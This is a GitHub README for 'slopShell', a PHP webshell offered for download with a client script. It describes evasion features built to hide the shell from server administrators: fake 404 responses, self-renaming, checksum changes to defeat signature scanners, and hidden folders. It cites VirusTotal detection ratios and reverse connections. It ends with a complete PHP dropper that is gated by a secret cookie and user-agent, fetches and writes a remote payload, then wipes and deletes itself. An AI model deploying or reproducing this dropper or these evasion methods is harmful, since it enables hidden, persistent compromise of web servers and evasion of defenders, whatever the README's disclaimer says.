 [![GitHub forks](https://img.shields.io/github/forks/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/network)
[![GitHub stars](https://img.shields.io/github/stars/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/stargazers)
[![GitHub watchers](https://img.shields.io/github/watchers/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/watchers)
[![GitHub issues](https://img.shields.io/github/issues/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/issues)
[![language](https://img.shields.io/badge/language-PHP-blue?style=plastic)](https://www.php.net)
[![language](https://img.shields.io/badge/language-Powershell-blue?style=plastic)](https://docs.microsoft.com/en-us/powershell/)
[![language](https://img.shields.io/badge/language-Bash-yellow?style=plastic)](https://www.gnu.org/software/bash/)
[![BuyMeACoffee](https://img.shields.io/badge/BuyMeACoffee-Or%20Book-yellowgreen?style=plastic)](https://www.buymeacoffee.com/oldkingcone)


# slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell (the client script is the 100% best way to communicate with this shell). 


Thank you for all the support the community has given, it means alot to us. Now for things that will be added to this shell, to make it even more awesome. 

 - Mutual TLS, with the ability to generate a CA on the fly(if thats possible) 
 - More refined dropper/shell itself, to ensure that the shell will not be stumbled upon for prolonged access.
 - Future edititions of this will have access to a personal database of cloud entities, its bascially a personal shodan of mine. Fee will be required for this(sorry).


Current VT Detection ratio: 2/59 (most new version)

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/fbec31525f79578305d67847183dbef7c7a64b431aef81fd59aadfbaa10461c5/detection)


Current VT Detection ratio (obfuscated version): 1/59 //This is a refined version of the slimmed down dropper. the overall file length is just under 2kb in size. Slopshell now correctly assigns a randomized useragent with a correct useragent value, that is, an actual useragent like mozilla,opera,chrome,chromium, etc.

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/46920e27a685d707cb82f23c6c76dd3705d6ec9c96b398828d57791bed7af059/detection)

~~__The issue with this detection happening is i have not found a viable workaround for the keyword of eval if there was no call to eval this script would be undetectable.__~~

---
# Setup

Ok, so here we go folks, there was an itch I had to write something in PHP so this is it. This webshell has a few bells and whistles, and more are added everyday. You will need a pgsql server running that you control. However you implement that is on you.

Debian: `apt install -y postgresql php php-pear python3-pip php-readline php-curl libsodium libsodium-dev && python -m pip install proxybroker --user`

RHEL Systems: `dnf -y -b install postgresql-server postgresql php php-pear python3-pip php-readline php-curl libsodium libsodium-devel && python -m pip install proxybroker --user`

WIN: `install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere.`


Once you have these set up properly and can confirm that they are running. A command I would encourge using is with `pg_ctl` you can create the DB that way, or at least init it and start it. Then all the db queries will work fine.

You need to cd into `/lib/` and run `composer install` to install the server side depends that will be required for the client to work. The client now runs much faster than before. 

---
# Credits for the execution methods

You may notice these are a reskin of another Wordpress backdoor, and once i find the repo again, [i will make sure to give credit for the execution of commands function that is present in these shells](https://github.com/leonjza/wordpress-shell/blob/master/shell.php#L47). I do not like to rip off code and believe that credit needs to be given where credit is due. Thank you kind sir, you have helped me quite a bit with this by making your scripts available to the public.

---
## What makes this shell unique?

So, while doing some changes, i thought heck why not add in a way for the ACTUAL shell itself to hide itself from a less than observant admin. Cleaned up the code execution methods, cleaned up the whole script. No longer will it display a fake 500 page, as this attracts too much attention from an observent admin (more so from my time as an admin of a php dev stack on a server) 500 error messages attract a lot of attention, which will mean the shell is more likely to be discovered. A 404 response however, is much less likely to draw in the gaze of the server admin. Making this shell itself much more difficult to detect and find, in addition to the changing filename, finding this shell will be an absolute nightmare. User-Agent customization is still something that will need to be done, or a unique cookie value will need to be used in place of the User-Agent value that however, will not be set by myself and i will let more experienced users customize this shell to their hearts content. Again, if you notice any issues, or any shortcomings(most i have fixed, and have updated this shell to PHP8 for the most part, type hints i still cannot add in and this is for backwards compatibility reasons) please do open an issue and let me know what is wrong, and i will see about fixing it. Thank you, do good fight evil, have fun.

Here is what I was able to come up with for the added evasive routines:
 - The shell will dynamically rename itself (this did break the client for now, I have so many things to change in the client, but this is just a pet project of mine.)
 - The original file will be deleted after it is written to disk the script now also adds a random comment at the top of the file, completely changing the checksum of the file, making signature based detection scanning much more difficult, not polymorphic, would be nice if this can be done in php. May write an additional function to randomize the location of the functions and adds random functions at random locations.
 - The value of the old file and the new file name will be reported back to the user in a header.
 - The shell now response HTTP 404 to everything, even valid requests. (another reason the client script is broken.)
 - Still working on the MTLS portions of the client and shell script.
 - I named it something different than i normally do.
 - Remapped some of the extra functions to fire off by default now, IE OS detection.
 - Added the ability for the script (if the directory is writable) to create a hidden folder for the shell to store the uploaded goodies to, and then reference.
 - Still working on dynamic loading and execution of uploaded scripts.

As I have grown in the language of PHP so will this whole project and the classes will become proper classes, with namespaces and all. Just need some time as i fix the code to more common standards of PHP development. I will likely add in a way to package this shell itself as a WordPress plugin, so that way it can be used in wordpress as well.( a proper plugin at that. )

---
## Images of use cases

Client script usage:
![](https://github.com/oldkingcone/slopShell/blob/master/images/client_usage.png?raw=true)

Reverse Connection initiated from the client script:
![](https://github.com/oldkingcone/slopShell/blob/master/images/reverse_connection_client_script.png?raw=true)


---
## Additional

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.

## Slimmed down dropper example: 
```
/* These comments are not present in the actual dropper, these are here to explain what this is doing.*/
<?php
http_response_code(404);
# pre shared values that only the operator of this shell will have. This dropper will be split into 3 parts to include system enumeration.
if (isset($_COOKIE['6e3611c0032725']) && $_SERVER['HTTP_USER_AGENT'] === 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.157 Safari/537.36(d9e1cee219f19c6d7c)'){
    if (isset($_POST['hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df'])){
        $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df = explode('.', unserialize(base64_decode($_COOKIE['6e3611c0032725']), ['allowed_classes' => false]));
        # Pre-shared value that only the operator has access to through the database.
        if ( hash_equals(hash_hmac('sha256', $_COOKIE['6e3611c0032725'], $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[0]), $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[1]) ){
            if (function_exists("com_create_guid") === true){
                $CDd5054278c02f = trim(com_create_guid()).PHP_EOL.PHP_EOL;
            }else{
                $70f4adfb6efefe08db = openssl_random_pseudo_bytes(16);
                $70f4adfb6efefe08db[6] = chr(ord($70f4adfb6efefe08db[6]) & 0x0f | 0x40);
                $70f4adfb6efefe08db[8] = chr(ord($70f4adfb6efefe08db[8]) & 0x3f | 0x80);
                $CDd5054278c02f = vsprintf('%s%s-%s-%s-%s-%s%s%s', str_split(bin2hex($70f4adfb6efefe08db), 4)).PHP_EOL.PHP_EOL;
            }
            # returns our needed data back to the server, this is broken into 3 parts, the uuid, the filename of our shell/enumeration script, and if we need stealth or not.
            echo $CDd5054278c02f . "_e8a4f6f58c05"."_true".PHP_EOL;
            fputs(fopen('./e8a4f6f58c05.php', 'a+'),base64_decode(file_get_contents($hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[2])));
            foreach (file($_SERVER['SCRIPT_FILENAME']) as $line){
            # if this dropper is activated in the correct way, this portion of the script takes less than a second to complete due to the size of this script.
                fwrite(fopen($_SERVER['SCRIPT_FILENAME'], 'w'), openssl_encrypt($line, 'aes-256-ctr', bin2hex(openssl_random_pseudo_bytes(100)), OPENSSL_RAW_DATA|OPENSSL_NO_PADDING|OPENSSL_ZERO_PADDING, openssl_random_pseudo_bytes((int)openssl_cipher_iv_length('aes-256-ctr'))));
            }
            # dropper routine is finished, no need to exist on the system any longer.
            fclose($_SERVER['SCRIPT_FILENAME']);
            unlink($_SERVER['SCRIPT_FILENAME']);
        }else{
            die();
        }
        die();
    }
}else{
    die();
}
```
